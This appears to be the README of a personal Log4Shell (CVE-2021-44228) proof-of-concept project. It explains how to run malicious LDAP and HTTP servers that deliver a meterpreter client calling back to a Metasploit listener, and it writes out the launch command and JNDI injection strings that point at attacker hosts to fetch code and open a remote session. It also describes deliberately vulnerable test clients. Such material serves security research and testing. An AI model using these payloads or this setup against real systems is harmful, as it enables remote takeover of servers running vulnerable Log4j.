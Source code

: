 # l4s_poc
Log4Shell (Cve-2021-44228) Proof Of Concept

This is a personal project that runs a simple POC that will host an LDAP
server and an HTTP server for the Log4Shell exploit.  

## Server
The run_servers.py will setup a stripped down meterpreter client that will call
back to the Metasploit instance passed into the ldap request.  **This will run
the meterpreter instance in a thread in the original process that was affected
by the Log4Shell exploit.**

The LDAP server is written in Java and the HTTP server is hosted in python and
will serve from a newly created wwwroot directory.  This does require java,
javac and mvn to build the exploits, and host the LDAP server.  I used Java 8.

Python3 is also required.

#### to get started
run: python3 run_servers.py <your_ip_address> <the_http_port> [ldap_port]

Then pass the jndi string to a vulnerable client to log i.e:
if your host was 10.20.30.40 and your metasploit instance was 20.30.40.50 
listening on port 4444 it would look like this : 
'${jndi:ldap://10.20.30.40:1389/#MM_20_30_40_50_4444}'

## Clients
The clients directory has 2 clients that can be executed.  One is a simple command
line program that will write an error log for whatever the 1st param passed in is.

The other is a basic web server that will write an error log using the log_me
header information.  Note this should be run in an isolated controlled env.

#### To build the clients :
navigate to the clients dir and run  ./build_clients.sh

#### To execute the webserver : 
from the clients dir run : java -cp target/l4sclients-1.0-SNAPSHOT-all.jar Log4jWebServer [Port_number]

#### To execute the cmd line : 
from the clients dir run : java -cp target/l4sclients-1.0-SNAPSHOT-all.jar Log4jCmdLine '${jndi:ldap://127.0.0.1:1389/#MM_127_0_0_1_4444}'

